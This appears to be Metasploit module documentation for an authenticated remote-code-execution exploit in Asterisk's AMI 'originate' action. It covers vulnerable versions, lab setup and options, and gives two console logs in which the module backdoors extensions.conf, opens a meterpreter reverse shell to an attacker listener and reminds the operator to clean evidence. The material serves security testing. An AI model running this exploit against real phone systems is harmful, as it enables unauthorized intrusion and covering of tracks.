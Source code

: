 ## Vulnerable Application

On Asterisk, prior to versions 18.24.2, 20.9.2, and 21.4.2 and certified-asterisk
versions 18.9-cert11 and 20.7-cert2, an AMI user with 'write=originate' may change
all configuration files in the '/etc/asterisk/' directory. Writing a new extension
can be created which performs a system command to achieve RCE as the asterisk service
user (typically asterisk).

Default parking lot in FreePBX is called "Default lot" on the website interface,
however its actually 'parkedcalls'.

Tested against Asterisk 19.8.0 and 18.16.0 on Freepbx SNG7-PBX16-64bit-2302-1.

### Install

One easy method, while outdated, is using the FreePBX ISO.

1. Boot to ISO and install the system. Choose Asterisk 19
2. Visit the web interface on port 80
3. Complete initial setup, make sure to not do updates.
4. login
5. Click FreePBX Administration
6. Click the hamburger > Applications > Parking
7. Check the parking extension and name (`70` and `Default lot` are the defaults)
8. Login (ssh/local) and edit `/etc/asterisk/manager.conf`
  1. Under `[general]`:
    1. Change `bindaddr` value to `0.0.0.0`
    2. If you'd like to test the version checking, grab admin's secret, and set `permit=0.0.0.0/0.0.0.0`
    3. Add the following at the bottom of the file:
    ```
[testuser]
secret=testuser
write=originate
permit=0.0.0.0/255.255.255.0
    ```
9. reboot box (after boot, it may take SEVERAL minutes for asterisk to come up)

Default parking lot is called "Default lot" in the website interface, however its actually `parkedcalls`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/misc/asterisk_ami_originate_auth_rce `
1. Do: `set rhosts <rhost>`
1. Do: `set lhost <lhost>`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. You should get a shell.

## Options

### CONF

The extensions configuration file location. Defaults to `/etc/asterisk/extensions.conf`

### PARKINGLOT

The extensions and name of the parking lot. Defaults to `70@parkedcalls`

### EXTENSION

The extension number to backdoor. Defaults to a random number between 3-5 digits.

## Scenarios

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 19

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: EfVeZSDeGcn
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43812) at 2024-11-04 09:09:57 -0500

meterpreter > shell
Process 5831 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 19.8.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 07:07:49 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 18

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: fSvWOLdAx
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:53468) at 2024-11-04 09:37:35 -0500

meterpreter > shell
Process 3977 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 18.16.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 06:50:30 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```